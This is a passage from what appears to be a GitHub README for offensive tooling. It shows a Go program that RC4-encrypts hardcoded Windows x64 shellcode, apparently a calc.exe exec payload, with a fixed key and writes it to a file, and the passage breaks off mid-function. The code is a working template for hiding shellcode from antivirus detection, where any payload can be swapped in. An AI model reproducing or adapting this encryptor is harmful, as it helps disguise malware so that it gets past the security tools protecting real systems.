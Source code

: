 ```  
go run encrypt.go encrypted_shellcode.bin
```  

**encrypt.go: encrypts the raw shellcode with rc4 encryption using a key and outputs it to a file on disk**  

```go
package main

import (
	"crypto/rc4"
	"io/ioutil"
	"log"
	"os"
)

func main() {
	if len(os.Args) < 2 {
		log.Fatal("Usage: go run main.go <output file>")
	}

	// Shellcode variable
	shellcode := []byte{
		0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
		0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
		0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
		0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
		0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
		0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
		0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
		0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
		0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
		0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
		0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
		0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
		0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
		0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
		0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
		0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
		0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
		0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
		0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
		0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
		0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00,
	}
	// Set the RC4 key
	key := []byte("Secret")

	// Create a new RC4 cipher with the key
	cipher, err := rc4.NewCipher(key)
	if err != nil {
		log.Fatal("Error creating RC4 cipher:", err)
	}

	// Encrypt the shellcode
	cipher.XORKeyStream(shellcode, shellcode)

	// Write the encrypted shellcode to the output file
	outputFile := os.Args[1]
	err = ioutil.WriteFile(outputFile, shellcode, 0644)
	if err != nil {
		log.Fatal("Error writing output file:", err)
```
